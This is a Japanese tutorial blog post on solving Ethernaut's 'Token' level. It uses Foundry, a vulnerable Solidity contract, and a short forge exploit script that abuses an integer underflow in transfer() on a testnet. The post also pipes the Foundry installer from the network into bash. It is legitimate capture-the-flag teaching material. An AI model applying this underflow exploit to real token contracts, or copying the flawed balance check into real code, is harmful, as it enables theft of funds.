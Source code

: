 ```yaml
---
title: 'Foundry+solidity環境でblockchain問を解く'
date: 2023-10-20T21:07:20+09:00
draft: false
categories:
  - 環境構築
  - blockchain
tags:
  - foundry
  - solidity
  - blockchain
---
```

# Foundryの説明とインストール

FoundryはDapp開発のための高速なフレームワークで、Rust製です。FoundryはSolidityだけでスクリプトとテストケースを書くことができ、特にスピードと効率に優れています。以下はFoundryのインストール方法です。

## インストール方法

以下のコマンドを使用してFoundryをインストールします。

```bash
curl -L https://foundry.paradigm.xyz | bash
source /root/.zshenv
foundryup
```

これにより、スクリプトを実行するための `forge` コマンドが利用可能になります。

# Ethernautの問題を解く

次に、Ethernautの問題を解く手順について説明します。ここではEthernautのLevel 5のToken問題を例に説明します。以下は具体的な手順です。

## インスタンスの生成

1. [Ethernautのウェブサイト](https://ethernaut.openzeppelin.com/)にアクセスします。
2. "Token" 問題を開きます。
3. "インスタンスを生成" ボタンをクリックします。
4. 開発者ツールのコンソールからインスタンスIDを取得します。

## プロジェクトのセットアップ

1. 新しいプロジェクトを生成します。

```bash
forge init token
cd token
```

2. Foundryの標準ライブラリをインストールします。

```bash
forge install foundry-rs/forge-std --no-commit
```

3. 環境変数を設定します。INSTANCEIDは先ほど取得したもの、RPC_URLはInfuraなどから取得、PRIVATE_KEYはMetaMaskから取得します。

```bash
PRIVATE_KEY=0x~~~~~
RPC_URL=https://sepolia.infura.io/v3/~~~~~
FOUNDRY_ETH_RPC_URL=https://sepolia.infura.io/v3/~~~~~
INSTANCEID=~~~~~
```

## コントラクトの作成

1. `src` ディレクトリに `Token.sol` を作成し、問題のコントラクトを貼り付けます。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

contract Token {
  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

## Exploitスクリプトの作成

1. `script` ディレクトリに `TokenExploit.sol` を作成し、解法を記述します。

```solidity
pragma solidity ^0.8.19;

import "lib/forge-std/src/Script.sol";
import "../src/Token.sol";

contract TokenExploitScript is Script {
    function run(address instanceAddress) public {
        vm.startBroadcast();

        address anyAddr = 0x0000000000000000000000000000000000000000;
        Token(payable(instanceAddress)).transfer(anyAddr, 21);
        
        vm.stopBroadcast();
    }
}
```

## 解法の実行

1. 以下のコマンドで解法を実行します。

```bash
forge script TokenExploitScript -vvvv --private-key $PRIVATE_KEY --fork-url $RPC_URL --broadcast --sig "run(address)" $INSTANCEID
```

2. ブラウザからインスタンスの提出を行うと、問題が解けているはずです。

